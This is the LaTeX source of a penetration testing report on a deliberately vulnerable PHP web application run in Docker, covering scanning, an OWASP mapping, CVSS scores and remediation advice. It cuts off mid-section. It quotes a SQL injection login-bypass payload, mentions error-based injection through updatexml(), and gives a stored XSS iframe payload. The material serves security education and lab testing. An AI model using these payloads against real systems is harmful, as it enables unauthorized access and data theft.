\documentclass[12pt]{article}
\setcounter{tocdepth}{3}
\usepackage[a4paper, margin=1in]{geometry}
\usepackage{hyperref}
\usepackage{authblk}
\usepackage{titlesec}
\usepackage{enumitem}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage{placeins}
\usepackage{graphicx}
\usepackage{geometry}
\usepackage{xcolor}
\usepackage{tabularx}
\usepackage{booktabs}
\usepackage{listings}

% Colors for risk levels
\definecolor{critical}{RGB}{255, 59, 48}   % Red
\definecolor{high}{RGB}{255, 149, 0}      % Orange
\definecolor{medium}{RGB}{255, 204, 0}    % Yellow
\definecolor{low}{RGB}{52, 199, 89}       % Green

\lstset{
  basicstyle=\ttfamily,
  columns=fullflexible,  % preserves spacing in copy
  keepspaces=true
}
\pagestyle{fancy}
\fancyhf{}
\rhead{\thepage}
\lhead{Penetration Testing – Final Report}
\titleformat{\section}{\Large\bfseries}{\thesection}{1em}{}
\titleformat{\subsection}{\large\bfseries}{\thesubsection}{1em}{}


\title{Penetration Testing – Final Report}
\author{}
\date{\today}

\begin{document}

\maketitle
\thispagestyle{empty}
\newpage

\tableofcontents
\newpage

\section{Introduction}

\subsection{Objective of the Penetration Test}
The objective of this penetration test is to identify and exploit vulnerabilities within a deliberately insecure PHP web application running on a Docker container environment. The test aims to simulate real-world attack scenarios and assess the system's resilience to unauthorized access, data leakage, and misconfiguration. The results of this test will be used to demonstrate common security flaws and provide actionable remediation strategies.

\subsection{Test Environment and Setup}
The target environment was deployed using the Docker image \texttt{gabrielec/ptexam1}, executed via:

\paragraph{On Mac:}
\begin{verbatim}
docker run --platform=linux/amd64 gabrielec/ptexam1
\end{verbatim}

\paragraph{On Other Platforms:}
\begin{verbatim}
docker run --platform=linux/amd64 -p 80:80 -p 3306:3306 gabrielec/ptexam1
\end{verbatim}
The web application was hosted at \texttt{http://172.17.0.2} on Windows (\texttt{http://http://localhost:8080/}), exposing port 80 (HTTP) with port 3306 (MariaDB) closed to external access. This isolated environment was selected to safely demonstrate exploitation techniques without affecting real systems.


\begin{quote}
\textbf{Side Note:} \\
On \textit{Linux Mint}, Docker exposes container ports to the host by default, allowing access to the container’s internal IP and ports (\texttt{localhost:PORT} still requires \texttt{-p}). \\
On \textit{Windows} (using the Hyper-V backend), you must explicitly map the container port to a host port. Do not rely on the container’s internal IP in such cases.
\end{quote}


\subsection{Tools and Technologies Used}
The following tools were utilized during the assessment:

\begin{itemize}
  \item \textbf{Nmap} – for network discovery and port scanning
  \item \textbf{Telnet} – to verify open ports
  \item \textbf{Gobuster} – for directory enumeration
  \item \textbf{Firefox DevTools} – for inspecting frontend behavior
  \item \textbf{Custom Node.js Scripts} – for automated SQL injection-based enumeration
  \item \textbf{Manual Testing} – including crafted payloads for SQL Injection and XSS
\end{itemize}

\subsection{Scope and Limitations}
This penetration test was a scoped to include:

\begin{itemize}
  \item Web application fronted (login, report pages)
  \item Server-side processing (SQL queries, PHP code behavior)
  \item Database backend (via SQL)
  \item Configuration files and exposed endpoints
\end{itemize}

The test explicitly excluded:

\begin{itemize}
  \item Denial of Service (DoS) attacks
  \item Exploiting physical or hardware-level vulnerabilities
  \item Social engineering techniques
\end{itemize}

Due to network restrictions, the MariaDB service was not directly accessible from outside the container, limiting the testing to web-based vector exploitation only.

\subsection{Ethical Considerations}
All testing was conducted in a controlled laboratory environment set up specifically for educational and demonstration purposes. No unauthorized systems were accessed and all findings are disclosed responsibly.


\section{Executive Summary}

\subsection{Summary of Key Vulnerabilities}
A critical vulnerability was identified in the login functionality of the web application, allowing SQL Injection through improperly sanitized user input. By injecting specially crafted SQL queries, it was possible to:

\begin{itemize}
 \item Bypass authentication mechanisms using classic techniques such as \texttt{' UNION SELECT NULL, NULL\#}
 \item Extract database schema information using error-based SQL injection.
 \item Enumerate table names like \texttt{agents}, \texttt{reports}, and sensitive data like agents usernames \texttt{jackOfspade}
 \item Gobuster enumeration uncovered the \texttt{debug.php} file, exposing configuration details that led to further vulnerability discovery.
 \item{recovery.php} getting id from agents db by username and trying to get password using recovery page.
\end{itemize}

\subsection{Risk Assessment Overview}
The SQL vulnerability discovered is categorized as \textbf{Critical} and \textbf{High} due to the following factors:

\begin{itemize}
  \item \textbf{Ease of exploitation:} The attack required no special privileges and could be conducted anonymously.
  \item \textbf{Impact:} Full read access to sensitive data, including usernames, and allows users to log in without providing correct credentials.
  \item \textbf{Scope:} Vulnerability affects the authentication mechanism and potentially every area of the database.
\end{itemize}

If exploited in a real-world scenario, this issue could lead to complete account takeover, data leakage, and potentially full compromise of the system.

\subsection{High-Level Recommendations}
To mitigate the identified SQL vulnerability and strengthen the overall security posture of the application, the following actions are strongly recommended:

\begin{itemize}
  \item \textbf{Use parameterized queries (prepared statements):} All database queries should avoid direct string concatenation with user input\cite{owasp-sql-injection}.
  \item \textbf{Sanitize all inputs:} Input validation should be implemented on both client and server sides to filter out potentially malicious characters.
  \item \textbf{Suppress detailed error messages:} SQL errors should not be exposed to users; use generic error handling in production to avoid error-based SQL injections.

  \item \textbf{Implement logging and intrusion detection:} Monitor unusual query patterns and consecutive failed log-in attempts. One way to do this is to set a limit on failed login attempts and block the login for a specified period.
\end{itemize}


\section{Methodology}

This section explains how the penetration test was carried out. The testing was done step by step, using a common approach followed by security professionals. The goal was to mimic real-world attacks, but in a safe and controlled environment. We followed trusted security guidelines, like those from OWASP\cite{owasp-php} and CVSS\cite{cvss-calculator}, to make sure our testing was thorough and meaningful.

\subsection{Test Scope Definition}
The test was focused on a PHP web application that was intentionally made vulnerable for learning purposes. It was set up using Docker. We tested only parts of the application that are accessible through the Web because direct access to the database was restricted.


\subsection{Information Gathering}
The goal of this phase was to understand the structure and behavior of the application by exploring the application routes (URLs), observing the responses, and identifying entry points for further testing.
Basic \textbf{manual inspection} and \textbf{automated tools} were used to reveal publicly accessible components.

\subsection{Network Scanning}
This phase involved identifying which ports and services were active on the server and how they responded to external requests.

\subsubsection{Port Scanning using Nmap}
Nmap was used with the \texttt{-sV} option to detect open ports and discover the services running on them, such as Apache on port 80 and a closed MariaDB service on port 3306.
    \begin{figure}[h!]
    \centering
    
\includegraphics[width=0.8\textwidth]{NetworkScan.png}
    \caption{Network Scanning}
    \label{fig:sql_injection}
    \end{figure}
    \FloatBarrier

\subsubsection{Subnet Discovery}
A broader network scan was performed using Nmap's \texttt{ -sP} option to identify other potential hosts within the local subnet.

\subsubsection{Telnet \& Netstat Validation}
Telnet was used to manually test the accessibility of open ports, while \texttt{netstat} helped verify that the default port of the database was closed to external traffic and we did not get the Escape character.

\subsection{Vulnerability Assessment}
After identifying the services(Port 80 (Apache HTTP Server) and Port 3306 (MariaDB)) and endpoints, manual and automated techniques were used to test for common web vulnerabilities. This included attempts to bypass log-in logic, access hidden files, and manipulate input fields.

\begin{table}[h!]
\centering
\begin{tabular}{|p{3cm}|p{4cm}|p{7cm}|}
\hline
\textbf{Type} & \textbf{Name/Path} & \textbf{Description} \\
\hline
Service & Port 80 (Apache HTTP) & Hosts the web application; accessible via browser. \\
\hline
Service & Port 3306 (MariaDB) & Database service; confirmed running but not accessible externally. \\
\hline
Endpoint & \texttt{/login.php} & Login functionality; vulnerable to SQL injection. \\
\hline
Endpoint & \texttt{/debug.php} & Debug page discovered via gobuster; leaks PHP configuration details. \\
\hline
Endpoint & \texttt{/send.php} & Injection point – accept untrusted input (e.g., XSS). \\
\hline
\hline
Endpoint & \texttt{/report.php} & Renders that input without sanitization, so the XSS fires/appears. \\
\hline
Endpoint & \texttt{/recovery.php} & Can be used to extract password by passing agent Id. \\
\hline
\end{tabular}
\caption{Identified Services and Application Endpoints}
\end{table}


\subsection{Exploitation Strategy}
Exploitation was focused on obtaining unauthorized access to the system and its data. The testing included:

\begin{itemize}
  \item Injecting SQL queries into the log-in fields.
  \item Bypassing authentication.
  \item Extracting schema and data from the database.
  \item Executing cross-site scripting (XSS) attacks.
  \item Directory and file enumeration using Gobuster.
  \item Exposing sensitive configuration via debug endpoints.
  \item Using error-based SQL injection to get the response in error by passing the wrong parameters to \textit{updatexml()}.
  \item Automating data extraction with custom scripts(Node.js script to extract agent usernames, ids, table names, column names).
\end{itemize}

\subsection{Post-Exploitation Analysis}
After successfully finding and using the vulnerabilities, we took a closer look at what kind of access an attacker could gain. This included checking what data could be viewed, such as usernames and passwords, and how far someone could go inside the system if they were a real attacker. This step helped us understand the possible damage and impact of each problem we found.

\subsection{Mapping to OWASP Checklist}

The following table maps the vulnerabilities and techniques discovered during this assessment to the relevant items in the OWASP Web Application Penetration Checklist (v1.1)\cite{owasp-checklist}. This demonstrates alignment with industry-standard testing practices.

\begin{table}[h!]
\centering
\begin{tabular}{|p{3cm}|p{5cm}|p{6cm}|}
\hline
\textbf{OWASP Ref} & \textbf{Checklist Item} & \textbf{Mapped to Project Activity} \\
\hline
OWASP-IV-002 & SQL Injection & SQL payloads used to bypass login and extract data. \\
\hline
OWASP-IV-005 & Cross-Site Scripting (XSS) & Injected JavaScript payloads tested in report fields. \\
\hline
\hline
OWASP-IV-001 &  Script Injection & Injected JavaScript payloads
tested in report fields. \\
\hline
OWASP-AUTHN-002 & Username & using the sql injection we got the username of \texttt{jackOfspade} \\
\hline
\hline
OWASPAUTHN-005 & Authentication Bypass & Login bypass using \verb|UNION SELECT|. \\
\hline
OWASP-EH-001 & Application Error Messages &  Application showing error message from backend exposed information, including table names and usernames. \\ 
\hline
\hline
OWASP-EH-002 & User Error Messages & SQL errors exposed detailed
schema information, including ta-
ble names and usernames, via
error-based SQL injection.\\
\hline
OWASP-CM-004 & Web Server Configuration & Discovered \texttt{/debug.php} showing PHP version and settings and also we got the root directory name from error message /var/www/html, it's not critical but it helps in guessing game \\
\hline
OWASP-CM-003 & Known Vulnerabilities / Patches & PHP version 7.2.34 identified as outdated and vulnerable. \\
\hline
OWASP-CM-006 & Common Paths & Gobuster used to brute-force and discover hidden paths like \texttt{/debug.php},  \texttt{/recovery.php} and \texttt{/config.php} . \\
\hline
\end{tabular}
\caption{OWASP Checklist Mapping for Tested Vulnerabilities}
\end{table}


\FloatBarrier


\section{Technical Findings}
\subsection*{Risk Level Assessment}
The table below provides a risk assessment summary of the vulnerabilities found in the application. Each score has been calculated using the CVSS calculator\cite{cvss-calculator}.
\begin{table}[h]
\centering
\label{tab:risks}
\begin{tabularx}{\textwidth}{l l l X}
\toprule
\textbf{Vulnerability} & \textbf{Risk Level} & \textbf{CVSS Score} & \textbf{Key Impact} \\
\midrule
SQL Injection & \textcolor{critical}{Critical} & 8.8 & Database is compromised \\
Directory/File Enumeration & \textcolor{high}{High} & 7.5 & Sensitive data is exposed \\
Cross-Site Scripting (XSS) & \textcolor{high}{High} & 8.0 &  Code execution \\
\bottomrule
\end{tabularx}
\caption{Risk Assessment Summary}
\end{table}
\FloatBarrier

\subsubsection*{1. SQL Injection (Critical)}
\begin{itemize}
    \item \textbf{Risk Level}: \textcolor{critical}{\textbf{Critical}}
    \item \textbf{CVSS Score}: 8.8 (\texttt{CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H})
    \item \textbf{Justification}:
    \begin{itemize}
        \item \textbf{Ease of Exploitation}: No authentication required, payloads (e.g., \texttt{' UNION SELECT NULL, NULL\# }) bypass login
        \item \textbf{Impact}: Accessed database (extracted usernames, ids, column names, table schema)
        \item \textbf{Scope}: Affects authentication and all database interactions.
    \end{itemize}
    \item \textbf{Evidence}:
    \begin{itemize}
        \item Error-based SQL injection
        \item Automated script extracted agent table names and usernames (\texttt{jackOfspade}, \texttt{sysadmin})
    \end{itemize}
    \begin{figure}[h!]
    \centering
    
\includegraphics[width=0.8\textwidth]{RA1.png}
    \caption{CVSS Score for SQL Injection}
    \label{fig:sql_injection}
    \end{figure}
    \begin{figure}[h!]
    \centering
    
\includegraphics[width=0.8\textwidth]{RA11.png}
    \caption{CVSS Score for SQL Injection}
    \label{fig:sql_injection}
    \end{figure}
    
    \FloatBarrier
\end{itemize}

\subsubsection*{2. Directory/File Enumeration (High)}
\begin{itemize}
    \item \textbf{Risk Level}: \textcolor{high}{\textbf{High}}
    \item \textbf{CVSS Score}: 7.5 (\texttt{CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N})
    \item \textbf{Justification}:
    \begin{itemize}
        \item \textbf{Ease of Exploitation}: Automated tools (Gobuster) revealed sensitive paths
        \item \textbf{Impact}: Exposed PHP version (7.2.34), server paths, and configuration
        \item \textbf{Scope}: Files like debug.php exposed many configuration settings which are vulnerable.
    \end{itemize}
    \item \textbf{Evidence}:
    \begin{itemize}
        \item Gobuster scan output revealed \texttt{/debug.php}, \texttt{/config.php}
        \item \texttt{debug.php} exposed \texttt{display\_errors = On} and internal paths
    \end{itemize}
    \begin{figure}[h!]
    \centering
    
\includegraphics[width=0.8\textwidth]{RA2.png}
    \caption{CVSS Score for Directory/File Enumeration}
    \label{fig:sql_injection}
    \end{figure}    
    \FloatBarrier
    
\end{itemize}

\subsubsection*{3. Cross-Site Scripting (XSS) (High)}
\begin{itemize}
    \item \textbf{Risk Level}: \textcolor{high}{\textbf{High}}
    \item \textbf{CVSS Score}: 8.0 (\texttt{CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H})
    \item \textbf{Justification}:
    \begin{itemize}
        \item \textbf{Ease of Exploitation}: Stored XSS via \texttt{<iframe src="javascript:alert('xss')">}
        \item \textbf{Impact}: Session hijacking, phishing, execution of arbitrary code \end{itemize}
    \item \textbf{Evidence}:
    \begin{itemize}
        \item Payload execution confirmed in report fields
        \item Unsafe \texttt{bypassSecurityTrustHtml()} usage
    \end{itemize}
    \begin{figure}[h!]
    \centering
